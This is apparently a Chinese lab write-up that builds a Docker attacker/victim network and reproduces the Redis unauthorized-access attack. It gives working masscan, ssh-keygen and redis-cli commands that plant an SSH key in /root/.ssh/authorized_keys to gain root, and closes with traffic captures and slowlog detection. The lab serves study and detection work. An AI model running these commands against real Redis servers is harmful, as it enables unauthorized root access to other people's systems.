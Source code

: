 ## 攻击主机

./hacker/Dockerfile

```dockerfile
FROM ubuntu:18.04

# 替换镜像源
RUN cp /etc/apt/sources.list /etc/apt/sources.list.bak && \
    sed -i 's#deb.debian.org#mirrors.tuna.tsinghua.edu.cn#g' /etc/apt/sources.list && \
    sed -i 's#archive.ubuntu.com#mirrors.tuna.tsinghua.edu.cn#g' /etc/apt/sources.list && \
    sed -i 's#security.debian.org#mirrors.tuna.tsinghua.edu.cn#g' /etc/apt/sources.list && \
    sed -i 's#security.ubuntu.com#mirrors.tuna.tsinghua.edu.cn#g' /etc/apt/sources.list && \
    apt-get update -y && apt-get upgrade -y

RUN apt-get install -y openssh-client masscan net-tools redis-tools iputils-ping telnet

CMD ["sleep", "infinity"]
```

## 漏洞主机

./redis_vul/Dockerfile

```dockerfile
FROM redis:5.0.7

USER root

# 替换镜像源
RUN cp /etc/apt/sources.list /etc/apt/sources.list.bak && \
    sed -i 's#deb.debian.org#mirrors.tuna.tsinghua.edu.cn#g' /etc/apt/sources.list && \
    sed -i 's#archive.ubuntu.com#mirrors.tuna.tsinghua.edu.cn#g' /etc/apt/sources.list && \
    sed -i 's#security.debian.org#mirrors.tuna.tsinghua.edu.cn#g' /etc/apt/sources.list && \
    sed -i 's#security.ubuntu.com#mirrors.tuna.tsinghua.edu.cn#g' /etc/apt/sources.list && \
    apt-get update

RUN apt-get update && apt-get install -y net-tools openssh-server && \
    mkdir /run/sshd && \
    sed -i "s/^#PermitRootLogin.*/PermitRootLogin yes/g" /etc/ssh/sshd_config && \
    sed -i "s/#PasswordAuthentication.*/PasswordAuthentication no/g" /etc/ssh/sshd_config

RUN echo 'root:password' | chpasswd

EXPOSE 22

#ENTRYPOINT ["redis-server"]
```

## 漏洞环境

```yml
version: "3.7"
services:
  redis:
    build: ./redis_vul/.
    networks:
      local_network:
        ipv4_address: 192.168.1.59

  scanner:
    build: ./hacker/.
    volumes:
      - ./ssh:/home/ssh
    networks:
      local_network:
        ipv4_address: 192.168.1.60

networks:
  local_network:
    name: local_network
    driver: macvlan
    driver_opts:
      parent: eth0
    ipam:
      config:
        - subnet: 192.168.1.0/24
```

> ```bash
> # docker 网络列表
> docker network ls
> # docker 删除网络
> docker network rm local_network
> # docker 创建 macvlan 网络
> docker network create -d macvlan --subnet=192.168.1.0/24 --gateway=192.168.1.1 -o parent=eth0 local_network
> # docker 查看指定容器的 ip
> docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' cve-2021-3129-attacker-1
> ```
> **<font color="#ff6666">虚拟本地网络互通仅支持 Linux 系统</font>**
> 
> **<font color="#ff6666">parent: eth0 改为当前宿主机的网卡</font>**

## 场景复现

```shell
# docker 创建 macvlan 网络
docker network create -d macvlan --subnet=192.168.1.0/24 --gateway=192.168.1.1 -o parent=eth0 local_network
# 构建并部署漏洞环境
docker-compose build && docker-compose up -d && docker ps -a
# 漏洞环境启用 ssh
docker-compose exec redis service ssh start
# 进入攻击主机
docker-compose exec scanner bash
# 在攻击主机中扫描局域网内所有开启 6379 端口的主机
masscan -p6379 -sS 192.168.0.0/24
# Discovered open port 6379/tcp on 172.18.0.2
# 生成密钥对
ssh-keygen -t rsa -f $HOME/.ssh/id_rsa_hack -N ""
(echo -e "\n\n"; cat $HOME/.ssh/id_rsa_hack.pub; echo -e "\n\n") > key.txt
# Redis 未授权利用
cat key.txt | redis-cli -h 192.168.1.59 -x set xxx
redis-cli -h 192.168.1.59 config set dir /root/.ssh
redis-cli -h 192.168.1.59 config set dbfilename authorized_keys
redis-cli -h 192.168.1.59 save
# 查看当前主机 ip
ifconfig | grep 192
# ssh root@192.168.1.59
# 如果密钥名称不是 id_rsa 则需要 -i 指定密钥
ssh -i $HOME/.ssh/id_rsa_hack root@192.168.1.59
```

## 采集流量

- [ssh免密登录.pcap](http://192.168.0.5/server/index.php?s=/api/attachment/visitFile/sign/1939ed854fae5b0a607608b137748b0e "[ssh免密登录.pcap")
- [redis未授权访问并设置公钥.pcap](http://192.168.0.5/server/index.php?s=/api/attachment/visitFile/sign/5653ffdf55777126b3913a254786aa98 "[redis未授权访问并设置公钥.pcap")
- [masscan 扫描 172.18.0 网段 6379 端口.pcap](http://192.168.0.5/server/index.php?s=/api/attachment/visitFile/sign/1c0db99c307882c0f52552edf0e3ceb7 "[masscan 扫描 172.18.0 网段 6379 端口-FULL.pcap")

## 日志采集

### Redis 日志

> 需要先配置 `CONFIG SET slowlog-log-slower-than 0`
> `slowlog-log-slower-than` 参数用于设置超时时间，单位是微秒。如果命令执行时间超过这个值，就会被记录在 `slowlog` 中。将这个参数设置为0表示记录所有命令。
> 通过 `redis-cli slowlog get 100` 获取 100 条慢日志

```shell
# 获取 10000 条慢日志
redis-cli -h 192.168.1.59 slowlog get 10000 | grep -B 2 -A 4 -i config | awk '{gsub(/^\-\-/, ""); printf "%s ", $0}/^$/{print ""}'
# 以下是输出内容
# 1683256706 22 config get dir 172.18.0.3:56426
# 
# 1683256645 1 config set dbfilename authorized_keys 172.18.0.3:38240
# 1683256638 189 config set dir /root/.ssh 172.18.0.3:60666
# 1683256607 4 config set slowlog-log-slower-than 0 172.18.0.3:48738
```